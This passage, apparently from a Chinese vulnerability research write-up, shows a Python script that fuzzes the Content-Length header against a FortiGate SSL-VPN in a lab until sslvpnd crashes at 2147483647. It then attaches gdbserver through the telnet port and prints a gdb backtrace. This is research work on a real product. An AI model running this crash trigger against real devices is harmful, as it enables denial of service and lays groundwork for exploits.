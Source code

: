 ```python

for CL in content_length:
    print("[+] "+str(CL)+" :")
    try:
        data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.121.138\r\nContent-Length: " + CL.encode() + b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\na=1"
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(("192.168.121.138", 10443))
        _default_context = ssl._create_unverified_context()
        client = _default_context.wrap_socket(client)
        client.sendall(data)
        res = client.recv(1024)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break
```

能得到，其值为2147483647时发生了报错

接下来就是调试，去找它的崩溃点是怎样出发的

我们能从外访问到内部的端口是有限的，这里直接起任意端口的gdbserver会访问不到，这里借用 ssh 22 端口或 telnet 的 23 端口
telnet得先在终端里开启(7.2版本开始不能在web界面启用)

```shell
# fortigate 连续几次，telnetd会重启
killall telnetd && gdbserver 192.168.121.138:23 --attach `pidof sslvpnd`
```


直接c，看栈回溯

```
(gdb) bt
#0  0x00007f346ffa976d in __memset_avx2_erms () from target:/usr/lib/x86_64-linux-gnu/libc.so.6
#1  0x000000000164e5d9 in ?? ()
#2  0x0000000001785ac2 in ?? ()
#3  0x000000000177f48d in ?? ()
#4  0x0000000001780b40 in ?? ()
#5  0x0000000001780c1e in ?? ()
#6  0x0000000001781131 in ?? ()
#7  0x00000000017823dc in ?? ()
#8  0x0000000001783762 in ?? ()
#9  0x0000000000448ddf in ?? ()
#10 0x0000000000451eba in ?? ()
#11 0x000000000044ea1c in ?? ()
#12 0x0000000000451128 in ?? ()
#13 0x0000000000451a51 in ?? ()
#14 0x00007f346fe72deb in __libc_start_main () from target:/usr/lib/x86_64-linux-gnu/libc.so.6
#15 0x0000000000443c7a in ?? ()
```
